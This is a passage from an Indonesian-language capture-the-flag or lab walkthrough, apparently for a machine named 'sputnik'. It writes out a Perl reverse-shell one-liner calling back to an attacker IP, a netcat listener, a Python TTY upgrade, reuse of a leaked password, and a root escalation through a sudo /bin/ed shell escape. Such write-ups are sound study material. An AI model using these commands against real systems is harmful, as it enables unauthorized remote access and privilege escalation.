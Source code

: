 ```perl
perl -e 'use Socket;$i="<192.168.56.105>";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

kemudian aku listen dulu di port `4242` menggunakan nc

```bash
nc -nvlp 4242
```

kemudian baru aku input payload perl tersebut di shell. Dan masuklah si netcat ke shell dengan tty sederhana

```bash
listening on [any] 4242 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.110] 59958
/bin/sh: 0: can't access tty; job control turned off
$ 
```

kemudian disini aku coba untuk check apakah ada python, dan ternyata ada, langsung saja aku eksekusi python untuk mendapatkan tty yang lebih baik

```bash
$ python --version
Python 2.7.15
$ python -c 'import pty; pty.spawn("/bin/bash")'

splunk@sputnik:/$ 
```

disini kita sudah mendapatkan user, yaitu splunk. Dari `git show` sebelumnya kita sudah mendapatkan username dan password yaitu `sputnik:ameer_says_thank_you_and_good_job`. Sekarang kita coba untuk `sudo su` untuk mendapatkan root.

```bash
plunk@sputnik:/$ sudo su
sudo su
[sudo] password for splunk: ameer_says_thank_you_and_good_job

Sorry, user splunk is not allowed to execute '/bin/su' as root on sputnik.
```

ternyata disitu user tidak diperbolehkan untuk akses `su`, sekarang kita coba untuk menggunakan cara lain, yaitu `/bin/ed` atau editor. 

Ada fitur khusus yang ada di editor ini, yaitu kita bisa menjalankan perintah shell dengan mengetikkan `!` diikuti perintah yang ingin dijalankan. Misalnya kita ingin menjalankan perintah `id`, maka kita bisa mengetikkan `!id` di editor tersebut.

```bash
plunk@sputnik:/$ sudo /bin/ed 
sudo /bin/ed
[sudo] password for splunk: ameer_says_thank_you_and_good_job
!id
uid=0(root) gid=0(root) groups=0(root)
```
